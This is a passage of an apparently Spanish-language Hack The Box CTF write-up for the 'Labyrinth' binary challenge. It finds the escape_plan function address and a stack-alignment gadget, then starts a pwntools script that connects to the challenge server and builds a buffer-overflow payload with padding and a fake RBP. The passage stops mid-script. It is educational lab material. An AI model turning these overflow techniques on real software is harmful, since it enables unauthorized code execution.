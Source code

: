Ahora tenemos la dirección de memoria donce comienza la función escape_plan.

Necesitamos el "gadget" para alinear el stack para que no se quede desplazado.

Buscamos la dirección del final de la función cls(), justo antes de la función escape_plan.

![alt text](/assets/img/posts/labyrinth-htb/image-5.png)

Ahora necesitamos crear el script con el flujo que necesitamos para explotar el binario.

## Script

Como el binario se ejecuta en un servidor necesitamos realizar una conexión mediante sockets para poder ejecutar el script.

```python
from pwn import *

# Conectar al servidor
conn = remote('94.237.55.96', 37701)

# Primer input
conn.recvuntil(b">> ")
conn.sendline(b"69")

# Segundo input con exploit
conn.recvuntil(b">> ")
padding = b"A" * 48
fake_rbp = b"\x00" * 8
```